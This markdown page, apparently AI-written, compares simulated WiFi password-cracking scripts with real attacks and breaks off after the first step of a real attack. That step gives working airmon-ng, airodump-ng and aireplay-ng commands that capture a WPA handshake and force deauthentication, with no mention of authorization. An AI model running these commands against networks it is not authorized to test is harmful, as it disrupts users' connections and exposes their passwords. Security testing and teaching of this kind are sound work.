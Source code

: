 # 🤝 Real vs Simulation: WiFi Security Testing

## ⚠️ CRITICAL DIFFERENCE: SIMULATION vs REAL ATTACKS

You're absolutely right to question the previous tools - they were **simulations**, not real attacks. Here's the difference:

---

## 🎭 SIMULATION TOOLS (Previous Tools)

### What They Actually Do:
- ✅ **Pattern matching** against common passwords
- ✅ **Educational demonstrations** of attack concepts  
- ✅ **Statistical analysis** of password strength
- ❌ **NO actual WiFi authentication attempts**
- ❌ **NO real network connections**
- ❌ **NO genuine password discovery**

### Example of Simulation Logic:
```python
def is_likely_password(password, ssid):
    # This just checks PATTERNS, not real authentication!
    if password in ['password', 'test', '12345678']:
        return True  # FAKE positive - just pattern matching
    return False
```

**Result**: False positives showing "174 passwords found" when none actually work.

---

## ⚡ REAL ATTACK TOOLS (New Tools)

### What They Actually Do:
- ✅ **Capture real 4-way handshakes** from WiFi networks
- ✅ **Attempt actual authentication** against captured handshakes
- ✅ **Use aircrack-ng** for genuine password cracking
- ✅ **Real network analysis** with monitor mode
- ✅ **Genuine password discovery** (if password is weak)

### How Real Attacks Work:

#### 1. **Handshake Capture Process**
```bash
# Enable monitor mode
sudo airmon-ng start en0

# Capture handshake
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write handshake wlan0mon

# Force handshake with deauth
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```
